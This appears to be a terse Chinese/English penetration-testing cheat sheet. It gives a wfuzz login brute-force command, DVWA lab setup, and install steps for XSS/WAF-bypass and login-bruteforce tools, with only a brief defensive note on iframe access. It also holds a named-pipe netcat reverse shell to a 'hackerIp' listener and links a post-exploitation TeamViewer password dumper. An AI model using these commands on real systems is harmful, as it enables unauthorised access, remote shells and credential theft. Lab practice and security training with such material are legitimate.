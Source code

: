 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

http://dvwa.co.uk
```
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

# 文件分析
```
Linux:
$ strings app.exe | grep -E -i 'https?://'
Windows (requires the Strings utility from Microsoft Sysinternals):

C:\> strings app.exe | findstr /i /r "htt[ps]*://"
tasklist /FI "IMAGENAME eq app.exe"
```

# Bypass any WAF for XSS easily
XSS Scanner equipped with powerful fuzzing engine & intelligent payload generator 
经典XSS模糊测试不要错过

```
https://github.com/UltimateHackers/Blazy/
Blazy is a modern login bruteforcer which also tests for CSRF, Clickjacking, Cloudflare and WAF

https://teamultimate.in/bypass-waf-xss-easily/
https://github.com/UltimateHackers/XSStrike
http://brutelogic.com.br/blog/
```
```
git clone https://github.com/UltimateHackers/XSStrike
cd XSStrike
pip install -r requirements.txt
python xsstrike
```

# 反弹
```
hacker:
nc -nvlp 443

target
mknod /tmp/backpipe p
/bin/sh -c "/bin/sh 0</tmp/backpipe | nc hackerIp 443 1>/tmp/backpipe"
```

# 后渗透获取信息teamviewer密码

```
https://github.com/attackercan/teamviewer-dumper.git
```

# html中iframe调用
```
document.getElementsByTagName("iframe")[0].contentWindow
document.getElementsByTagName("iframe")[0].ownerDocument
防御：
对Funciton等对象的toString重定义
return null，从而保护、避免代码被调试、渗透查阅
其他参考代码
var ifrm = window.frameElement; // reference to iframe element container
var doc = ifrm.ownerDocument; // reference to container's document
var form = doc.forms[0]; // reference to first form in container document
// reference to first form in parent document
var form = parent.document.forms[0];
// or, using form id instead
var form = parent.document.getElementById('myForm');